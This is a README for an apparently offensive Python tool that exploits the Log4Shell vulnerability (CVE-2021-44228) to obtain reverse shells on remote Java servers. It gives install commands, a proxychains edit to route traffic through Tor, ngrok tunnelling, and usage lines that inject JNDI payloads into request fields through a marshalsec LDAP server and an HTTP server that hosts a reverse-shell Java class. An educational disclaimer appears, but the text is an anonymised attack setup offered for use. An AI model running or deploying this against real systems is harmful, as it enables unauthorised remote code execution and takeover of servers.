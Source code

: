 # **Log4Shell/CVE-2021-44228 - Reversing shell**  

### Exploitation vectors and affected Java runtime versions: https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/   
### This application uses the LDAP server created by https://github.com/mbechler/marshalsec

## **Disclaimer**
All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## **Requirements**
* Python3
* Java JDK any version
* Maven required
```
sudo apt-get update
```
```
sudo apt-get -y install maven
```
* Ngrok required
```
sudo apt-get -y install ngrok
```
* Tor required
```
sudo apt-get -y install tor
```
Edit file /etc/proxychains4.conf. Add socks5  127.0.0.1 9050 to the end of file.
```
echo 'socks5  127.0.0.1 9050' >> /etc/proxychains4.conf
```
* Ncat required

## **Usage**

This application creates an environment and automatically configures the parameters for vulnerability testing.
It starts an LDAP server and sends requests to the vulnerable host, which can be used remotely through ngrok tunneling and also through the tor proxy.

Running with the ncat listen option will also create an http server that will provide a java class for the reverse shell.

Use * in the fields where the commands must be injected.

Use the same notation for the parameters as in the curl command.

```
getrevlog4shell.py -X POST -H "Content-Type: application/json" -d '{"username":"*","password":"*"}' -v <host_vulnerable>
```

It can also be used the files originated from the burpsuit edited with the insertion of * in the fields to be tested.

```
getrevlog4shell.py -r <burp_file>
```
